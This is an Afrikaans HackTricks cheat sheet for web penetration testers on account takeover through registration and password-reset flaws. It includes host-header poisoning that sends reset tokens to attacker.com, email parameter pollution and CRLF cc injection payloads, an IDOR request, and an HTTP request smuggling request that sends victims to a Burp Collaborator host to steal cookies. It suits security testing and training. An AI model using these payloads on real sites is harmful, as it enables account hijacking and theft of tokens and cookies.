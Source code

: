 # Registrasie & Oorname Kwessies

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Registrasie Oorname

### Dubbele Registrasie

* Probeer om te genereer met 'n bestaande gebruikersnaam
* Kyk na verskillende e-pos:
* hoofletters
* \+1@
* voeg 'n punt in die e-pos by
* spesiale karakters in die e-pos naam (%00, %09, %20)
* Sit swart karakters na die e-pos: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Gebruikersnaam Enumerasie

Kyk of jy kan uitvind wanneer 'n gebruikersnaam reeds binne die toepassing geregistreer is.

### Wagwoordbeleid

Skep 'n gebruiker en kyk na die wagwoordbeleid (kyk of jy swak wagwoorde kan gebruik).\
In daardie geval kan jy probeer om akrediteer te bruteforce.

### SQL Inbraak

[**Kyk na hierdie bladsy** ](sql-injection/#insert-statement)om te leer hoe om rekeningoorname te probeer of inligting te onttrek via **SQL Inbrake** in registrasievorms.

### Oauth Oorname

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML Kwessies

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Verander E-pos

Wanneer geregistreer, probeer om die e-pos te verander en kyk of hierdie verandering korrek geverifieer word of of jy dit na arbitrêre e-posse kan verander.

### Meer Kontroles

* Kyk of jy **weggooie e-posse** kan gebruik
* **Lang** **wagwoord** (>200) lei tot **DoS**
* **Kyk na koerslimiete op rekening skep**
* Gebruik username@**burp\_collab**.net en analiseer die **callback**

## **Wagwoord Herstel Oorname**

### Wagwoord Herstel Token Lek Via Verwysing <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Versoek wagwoord herstel na jou e-pos adres
2. Klik op die wagwoord herstel skakel
3. Moet nie wagwoord verander nie
4. Klik op enige 3de party webwerwe (bv: Facebook, twitter)
5. Intercepteer die versoek in Burp Suite proxy
6. Kyk of die referer kopstuk die wagwoord herstel token lek.

### Wagwoord Herstel Besmetting <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Intercepteer die wagwoord herstel versoek in Burp Suite
2. Voeg of wysig die volgende kopstukke in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Stuur die versoek met die gewysigde kopstuk\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Soek vir 'n wagwoord herstel URL gebaseer op die _host kopstuk_ soos : `https://attacker.com/reset-password.php?token=TOKEN`

### Wagwoord Herstel Via E-pos Parameter <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR op API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Aanvaller moet met hul rekening aanmeld en na die **Verander wagwoord** funksie gaan.
2. Begin die Burp Suite en onderskep die versoek.
3. Stuur dit na die herhaler tab en wysig die parameters: User ID/e-pos\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Swak Wagwoord Herstel Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Die wagwoord herstel token moet ewekansig gegenereer en uniek wees elke keer.\
Probeer om te bepaal of die token verval of as dit altyd dieselfde is, in sommige gevalle is die generasie-algoritme swak en kan dit geraai word. Die volgende veranderlikes mag deur die algoritme gebruik word.

* Tydstempel
* UserID
* E-pos van gebruiker
* Voornaam en Van
* Geboortedatum
* Kriptografie
* Slegs nommer
* Klein token volgorde (karakters tussen \[A-Z,a-z,0-9])
* Token hergebruik
* Token vervaldatum

### Lekke Wagwoord Herstel Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Trigger 'n wagwoord herstel versoek deur die API/UI vir 'n spesifieke e-pos bv: test@mail.com
2. Ondersoek die bediener se antwoord en kyk vir `resetToken`
3. Gebruik dan die token in 'n URL soos `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Wagwoord Herstel Deur Gebruikersnaam Botsing <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registreer op die stelsel met 'n gebruikersnaam wat identies is aan die slagoffer se gebruikersnaam, maar met spasie voor en/of na die gebruikersnaam ingevoeg. bv: `"admin "`
2. Versoek 'n wagwoord herstel met jou kwaadwillige gebruikersnaam.
3. Gebruik die token wat na jou e-pos gestuur is en herstel die slagoffer se wagwoord.
4. Maak verbinding met die slagoffer se rekening met die nuwe wagwoord.

Die platform CTFd was kwesbaar vir hierdie aanval.\
Sien: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Rekening Oorname Deur Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Vind 'n XSS binne die toepassing of 'n subdomein as die koekies op die ouerdomein geskope is: `*.domain.com`
2. Lek die huidige **sessies koekie**
3. Verifieer as die gebruiker met behulp van die koekie

### Rekening Oorname Deur HTTP Versoek Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Gebruik **smuggler** om die tipe HTTP Versoek Smuggling (CL, TE, CL.TE) te detecteer\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Stel 'n versoek op wat die `POST / HTTP/1.1` met die volgende data sal oorskryf:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` met die doel om die slagoffers na burpcollab te herlei en hul koekies te steel\
3\. Finale versoek kan soos volg lyk
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone verslae wat hierdie fout benut\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Rekening Oorname via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Skep 'n payload vir die CSRF, bv: “HTML vorm met outomatiese indiening vir 'n wagwoord verandering”
2. Stuur die payload

### Rekening Oorname via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token mag gebruik word om 'n gebruiker te verifieer.

* Wysig die JWT met 'n ander Gebruiker ID / E-pos
* Kontroleer vir swak JWT handtekening

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Verwysings

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

